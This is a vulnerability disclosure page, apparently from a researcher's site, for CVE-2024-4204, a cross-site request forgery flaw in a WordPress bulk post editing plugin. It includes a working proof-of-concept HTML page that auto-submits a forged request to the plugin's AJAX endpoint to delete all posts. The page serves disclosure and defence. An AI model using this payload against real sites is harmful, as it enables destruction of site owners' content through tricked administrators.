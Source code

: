 ```yaml
---
layout: page
title: CVE-2024-4204
subtitle: Bulk Posts Editing For WordPress <= 4.2.3 - Cross-Site Request Forgery
---
```

## Description
The Bulk Posts Editing For WordPress plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 4.2.3. This is due to missing or incorrect nonce validation on the plugin's AJAX actions.. This makes it possible for unauthenticated attackers to create and duplicate posts, retrieve post content, and modify post taxonomy among other things via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 4.2.3

## PoC :
```
<html>
  <!-- Made by eneriii - https://twitter.com/aillesim -->
  <body>
    <form action="http://103.189.234.57/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="wpbel&#95;delete&#95;posts" />
      <input type="hidden" name="delete&#95;type" value="all" />
      <input type="hidden" name="filter&#95;data&#91;search&#95;type&#93;" value="pro&#95;search" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;ids&#93;&#91;operator&#93;" value="exact" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;ids&#93;&#91;parent&#95;only&#93;" value="no" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;ids&#93;&#91;value&#93;" value="" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;title&#93;&#91;operator&#93;" value="like" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;title&#93;&#91;value&#93;" value="" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;content&#93;&#91;operator&#93;" value="like" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;content&#93;&#91;value&#93;" value="" />
      <input type="hidden" name="filter&#95;data&#91;taxonomies&#93;&#91;0&#93;&#91;taxonomy&#93;" value="category" />
      <input type="hidden" name="filter&#95;data&#91;taxonomies&#93;&#91;0&#93;&#91;operator&#93;" value="or" />
      <input type="hidden" name="filter&#95;data&#91;taxonomies&#93;&#91;1&#93;&#91;taxonomy&#93;" value="post&#95;tag" />
      <input type="hidden" name="filter&#95;data&#91;taxonomies&#93;&#91;1&#93;&#91;operator&#93;" value="or" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/ithemeland-bulk-posts-editing-lite/bulk-posts-editing-for-wordpress-423-cross-site-request-forgery
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3085134%40ithemeland-bulk-posts-editing-lite%2Ftrunk&old=2946926%40ithemeland-bulk-posts-editing-lite%2Ftrunk&sfp_email=&sfph_mail=#file51
- https://www.cve.org/CVERecord?id=CVE-2024-4204




